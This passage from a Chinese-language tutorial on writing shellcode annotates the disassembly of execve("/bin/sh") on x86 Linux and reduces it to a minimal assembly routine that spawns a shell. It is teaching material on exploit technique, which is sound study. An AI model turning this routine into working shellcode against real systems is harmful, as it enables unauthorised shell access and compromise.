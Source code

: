 0x8000146 : leal 0xfffffff8(%ebp),%eax
0x8000149 : pushl %eax
将name[]的起始地址压入堆栈

0x800014a : movl 0xfffffff8(%ebp),%eax
0x800014d : pushl %eax
将字符串"/bin/sh"的地址压入堆栈

0x800014e : call 0x80002bc <__execve>
调用execve() . call 指令首先将 EIP 压入堆栈

------------------------------------------------------------------------------------

现在我们再来看一下execve()的代码. 首先要注意的是, 不同的操作系统,不同的CPU,他
们产生系统调用的方法也不尽相同. 有些使用软中断,有些使用远程调用.从参数传递的
角度来说,有些使用寄存器,有些使用堆栈.
我们的这个例子是在基于Intel X86的Linux上运行的．所以我们首先应该知道Linux中，
系统调用以软中断的方式产生( INT 80h)，参数是通过寄存器传递给系统的．

0x80002bc <__execve>: 　pushl %ebp
0x80002bd <__execve+1>: movl %esp,%ebp
0x80002bf <__execve+3>: pushl %ebx
同样的入口处理

0x80002c0 <__execve+4>: movl $0xb,%eax
将0xb(11)赋给eax , 这是execve()在系统中的索引号．

0x80002c5 <__execve+9>: movl 0x8(%ebp),%ebx
将字符串"/bin/sh"的地址赋给ebx

0x80002c8 <__execve+12>: movl 0xc(%ebp),%ecx
将name[]的地址赋给ecx

0x80002cb <__execve+15>: movl 0x10(%ebp),%edx
将NULL的地址赋给edx

0x80002ce <__execve+18>: int $0x80
产生系统调用，进入核心态运行．

------------------------------------------------------------------------------------

看了上面的代码，现在我们可以把它精简为下面的汇编语言程序：

leal string,string_addr
movl $0x0,null_addr
movl $0xb,%eax
movl string_addr,%ebx
leal string_addr,%ecx
leal null_string,%edx
int   $0x80
(我对Linux的汇编语言格式了解不多,所以这几句使用的是DOS汇编语言的格式)
string　db　"/bin/sh",0
string_addr　dd　0
null_addr　　dd　0
-------------------------------------------------------------------------------------

但是这段代码中还存在着一个问题 ,就是我们在编写ShellCode时并不知道这段程序执行
时在内存中所处的位置,所以像:
movl string_addr,%ebx
这种需要将绝对地址编码进机器语言的指令根本就没法使用.
